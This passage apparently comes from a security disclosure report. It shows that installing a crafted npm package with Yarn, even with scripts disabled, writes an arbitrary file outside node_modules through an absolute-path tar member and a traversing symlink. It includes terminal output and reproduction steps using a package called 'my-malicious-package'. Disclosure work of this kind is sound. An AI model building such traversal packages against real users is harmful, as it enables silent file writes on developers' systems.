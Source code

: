 ```
$ gtar --list --file y-1.0.0.tgz
package/package.json
package/my-file
gtar: Removing leading `/' from member names
/my-file
```

It was time to test. First of all, I ensured that no such file existed at `/tmp/my-file`, by running `rm -f /tmp/my-file`. I then published a new version of the package, and installed it:

```
$ yarn add my-malicious-package@1.0.41
yarn add v1.16.0
[1/4] 🔍  Resolving packages...
[2/4] 🚚  Fetching packages...
[3/4] 🔗  Linking dependencies...
[4/4] 🔨  Building fresh packages...
success Saved lockfile.
success Saved 1 new dependency.
info Direct dependencies
└─ my-malicious-package@1.0.41
info All dependencies
└─ my-malicious-package@1.0.41
✨  Done in 1.91s.
```

I checked the contents of the directory where it was installed, and say only two items:

```
$ ls -la node_modules/my-malicious-package/
lrwxr-xr-x  1 rhyselsmore  staff   32  3 Nov 12:00 my-file -> ../../../../../../../tmp/my-file
-rw-r--r--  1 rhyselsmore  staff  214  3 Nov 12:00 package.json
```

And finally, decided to check the existance of the file in `/tmp/my-file`:

```
$ ls -la /tmp/my-file
-rw-r--r--  1 rhyselsmore  wheel  7  3 Nov 12:00 /tmp/my-file
$ cat /tmp/my-file
abc123
```

Success! We were able to write an arbitrary file onto the filesystem.

### Steps To Reproduce:

You will need NodeJS & Yarn installed. This has only been tested on OSX systems, however it would also work on Unix systems, and will write a file into `/tmp/my-file`. Ensure this file doesn’t exist first.

1. Create a new folder somewhere on your filesystem.
2. Navigate into it, and run `yarn init`. Press enter for all of the questions.
3. Then run `yarn add my-malicious-package@1.0.50 --ignore-scripts`
4. Check for the existence and contents of `/tmp/my-file`. It should contain `abc123`

